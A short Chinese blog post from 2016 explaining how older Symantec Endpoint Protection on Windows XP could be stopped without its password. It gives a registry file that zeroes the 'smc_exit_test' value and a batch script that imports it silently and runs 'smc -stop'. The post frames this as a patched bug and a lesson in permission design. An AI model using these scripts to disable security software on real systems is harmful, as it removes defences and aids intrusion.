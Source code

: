 ```yaml
---
title: 旧版SEP在Windows XP下的漏洞
url: 2016/07/31/the-bug-of-sep
tags: [Windows]
categories: [operations]
date: 2016-07-31 14:35:44
---
```



低版本的 SEP(Symantec endpoint protection) 在 Windows XP 系统下存在一个漏洞（其他版本 windows 尚未验证），即修改注册表某一键的值后，即可在不输入密码的情况下关闭该软件的相关保护功能。

## 分析

首先创建一个 test.reg 文件，用于修改注册表，内容如下。<!--more-->

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC]
"smc_exit_test"=dword:00000000
```

可以看到我们只需要将位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC` 中的 `smc_exit_test` 项的值改为0，就可以禁用关闭保护时的检测。

然后创建一个 bat 文件，内容如下：

```
@echo off
regedit.exe/s C:\test.reg
cd  "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc -stop
```

在这个脚本中，我们通过 regedit.exe/s 命令无提示地将刚才定义的 reg 文件内容导入注册表，随后切换到 SEP 的安装目录中，通过执行 SEP 自带的 `smc -stop` 来终止保护。

运行后可以发现并没有出现在直接运行 `smc -stop` 时会弹出的要求输入密码的对话框，SEP 却直接停止了保护。

## 后记

这是 SEP 几年前旧版本中的一个漏洞，在随后的新版本中早已得到修护。我们可以从这个漏洞中看到，在编程时需要考虑一些配置信息的隐藏和权限控制问题（尤其注意早期版本 windows 的注册表），防止通过简单地修改注册表或配置文件即可停止程序主体服务的情况发生。